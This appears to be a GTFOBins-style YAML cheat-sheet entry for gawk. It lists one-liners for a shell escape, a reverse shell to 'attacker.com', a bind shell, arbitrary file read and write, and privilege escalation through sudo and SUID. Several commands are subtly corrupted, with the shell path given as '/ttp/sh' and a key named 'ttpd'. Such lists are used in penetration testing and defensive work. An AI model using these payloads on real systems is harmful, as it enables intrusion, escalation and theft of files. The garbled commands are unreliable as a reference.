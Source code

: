 ```yaml
---
functions:
  shell:
    - code: gawk 'BEGIN {system("/ttp/sh")}'
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        gawk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
            s = "/inet/tcp/0/" RHOST "/" RPORT;
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  non-interactive-ttpd-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        gawk -v LPORT=$LPORT 'BEGIN {
            s = "/inet/tcp/" LPORT "/0/0";
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  file-write:
    - code: |
        LFILE=file_to_write
        gawk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
  file-read:
    - code: |
        LFILE=file_to_read
        gawk '//' "$LFILE"
  sudo:
    - code: sudo gawk 'BEGIN {system("/ttp/sh")}'
  limited-suid:
    - code: ./gawk 'BEGIN {system("/ttp/sh")}'
---
```

